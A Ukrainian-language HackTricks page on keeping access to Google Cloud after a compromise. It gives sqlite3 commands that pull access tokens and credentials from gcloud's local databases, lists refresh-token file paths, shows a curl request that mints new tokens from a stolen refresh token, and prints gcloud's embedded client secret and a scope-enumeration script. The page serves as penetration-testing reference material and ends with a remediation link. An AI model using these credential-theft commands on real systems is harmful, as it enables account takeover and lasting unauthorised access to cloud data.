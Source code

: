 # GCP - Non-svc Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Це корисні техніки, якщо ви якимось чином скомпрометували облікові дані GCP або машину, що працює в середовищі GCP.

## Token Hijacking

### Authenticated User Tokens

Щоб отримати **поточний токен** користувача, ви можете виконати: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Перевірте на цій сторінці, як **безпосередньо використовувати цей токен за допомогою gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Щоб отримати деталі для **генерації нового токена доступу**, виконайте:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Також можливо знайти токени оновлення в **`$HOME/.config/gcloud/application_default_credentials.json`** та в **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Щоб отримати новий оновлений токен доступу з **токеном оновлення**, ідентифікатором клієнта та секретом клієнта, виконайте: 

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Термін дії токенів оновлення можна керувати в **Admin** > **Security** > **Google Cloud session control**, і за замовчуванням він встановлений на 16 годин, хоча його можна налаштувати так, щоб він ніколи не закінчувався:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

Процес аутентифікації при використанні чогось на кшталт `gcloud auth login` відкриє запит у браузері, і після прийняття всіх областей браузер надішле запит, подібний до цього, на http-порт, відкритий інструментом:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Тоді gcloud використовуватиме стан і код з деяким зашитим `client_id` (`32555940559.apps.googleusercontent.com`) та **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`), щоб отримати **останні дані токена оновлення**.

{% hint style="danger" %}
Зверніть увагу, що зв'язок з localhost здійснюється через HTTP, тому можливо перехопити дані, щоб отримати токен оновлення, однак ці дані дійсні лише 1 раз, тому це буде марно, легше просто прочитати токен оновлення з файлу.
{% endhint %}

### OAuth Scopes

Ви можете знайти всі Google scopes на [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) або отримати їх, виконавши:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Можна побачити, які області підтримує застосунок, який **`gcloud`** використовує для аутентифікації, за допомогою цього скрипта:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Після виконання було перевірено, що цей додаток підтримує ці області:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
цікаво бачити, як цей додаток підтримує **`drive`** область, що може дозволити користувачу ескалувати з GCP до Workspace, якщо зловмисник зможе змусити користувача згенерувати токен з цією областю.

**Перевірте, як** [**зловживати цим тут**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Облікові записи служб

Так само, як і з автентифікованими користувачами, якщо вам вдасться **зламати приватний ключ** облікового запису служби, ви зможете **доступати до нього зазвичай так довго, як вам потрібно**.\
Однак, якщо ви вкрадете **OAuth токен** облікового запису служби, це може бути ще цікавіше, оскільки, навіть якщо за замовчуванням ці токени корисні лише протягом години, якщо **жертва видалить приватний API ключ, OAuth токен залишиться дійсним до його закінчення**.

### Метадані

Очевидно, поки ви знаходитесь всередині машини, що працює в середовищі GCP, ви зможете **доступати до облікового запису служби, прикріпленого до цієї машини, звертаючись до кінцевої точки метаданих** (зверніть увагу, що OAuth токени, до яких ви можете отримати доступ на цій кінцевій точці, зазвичай обмежені областями).

### Заходи з виправлення

Деякі заходи з виправлення для цих технік пояснені в [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Посилання

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}
